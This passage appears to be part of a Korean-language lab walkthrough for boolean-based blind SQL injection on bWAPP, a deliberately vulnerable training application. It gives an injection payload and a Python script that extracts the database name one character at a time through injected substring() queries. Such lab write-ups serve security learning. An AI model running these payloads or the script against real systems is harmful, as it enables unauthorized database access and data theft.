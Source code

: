 
```sql
' or lengrh(database()) = 5#
```

![그림 1-4](/assets/image/bwapp/injection/sqli-blind-boolean-archive/image-3.png)
- 현재 DB는 Mysql 인 것을 알고 있으므로 database() 함수를 사용했다.
- 이를 모를 경우 각DBMS 에 맞는 함수 혹은 information.schema를 사용해야한다.

> 직접 입력창을 통해 하나씩 참/거짓 유무를 통해 알아내기에는 시간이 많이 소요되므로, 파이썬 코드를 통해 자동화 코드를 만들었다.

```python
import  requests, string

cookies={"PHPSESSID":"-----", "security_level":"0","BEEFHOOK":"------" }
def table_count():
    ch=''
    stringlist=string.ascii_letters+string.digits+string.punctuation
    for i in range(1,6):
        for j in stringlist:
            url = f"http://<ip>/bWAPP/sqli_4.php?title=' or substring(database(),{i},1) = '{j}'%23&action=search"
            res=requests.get(url, cookies=cookies)
            if "The movie exists in our database!" in res.text:
                ch+=j
                print(f"string..{ch}")
                break
if __name__ =="__main__":
    table_count()
```
![그림 1-5](/assets/image/bwapp/injection/sqli-blind-boolean-archive/image-4.png)
- Database 이름은 bwapp 로 확인되었다.
